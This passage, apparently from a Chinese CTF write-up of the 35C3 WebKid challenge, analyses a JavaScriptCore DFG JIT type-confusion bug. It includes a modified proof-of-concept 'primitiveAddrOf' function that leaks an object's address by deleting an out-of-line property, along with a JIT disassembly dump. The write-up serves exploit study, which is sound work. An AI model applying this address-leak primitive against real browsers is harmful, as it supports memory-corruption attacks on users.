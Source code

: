 ```javascript

```

漏洞利用围绕JSValue，细节此处略过。



### 四、CheckStructure与WatchPoint

WatchPoint在fire的时候，会找到InvalidationPoint的位置，然后通过JumpReplacement跳离不安全的DFG代码回到baseline JIT，而CheckStructure则是类似：

![image-20190108145748575](35c3CTF WebKid writeup heuristic transition.assets/image-20190108145748575-6930668.png)

按照前三节的js代码，DFG IR中不存在CheckStruture。



改造一下PoC，使arr通过函数参数arg的形式传入：

```javascript
function primitiveAddrOf(obj) {
    let arr = [1.1, 2.2, 3.3];
    arr.outOfLineProperty = 4.4;

    function visit(arg) {
        return arg[0];
    }

    for (let i = 0; i < 0x1000; i++) {
        visit(arr);
    }
    print(describe(arr));
    delete arr.outOfLineProperty;
    print(describe(arr));
    arr[0] = obj;
    print(describe(arr));
    dbg(0);
    return visit(arr);
}
let o = {};
let res = primitiveAddrOf(o);
print(res);
```

生成的dfg代码稍微发生了变化，可以看到其中虽然没有CheckStructure产生，但有CheckArray：

```bash
Generated DFG JIT code for visit#BFOcsO:[0x11cd784c0->0x11cd78260->0x11cd98f20, DFGFunctionCall, 15 (NeverInline)], instruction count = 15:
    Optimized with execution counter = 1005.000000/1072.000000, 5
    Code at [0x4aac22800820, 0x4aac22800c60):
          0x4aac22800820: push %rbp
          0x4aac22800821: mov %rsp, %rbp
          0x4aac22800824: mov $0x11cd784c0, %r11
		  ...
          0x4aac2280087f: or $0x2, %r15
          0x4aac22800883: test %r15, 0x30(%rbp)
          0x4aac22800887: jnz 0x4aac22800b7e
    Block #0 (bc#0): (OSR target)
      Execution count: 1.000000
      Predecessors:
      Successors:
      Dominated by: #root #0
      Dominates: #0
      Dominance Frontier: 
      Iterated Dominance Frontier: 
          0x4aac2280088d: test $0x7, %bpl
```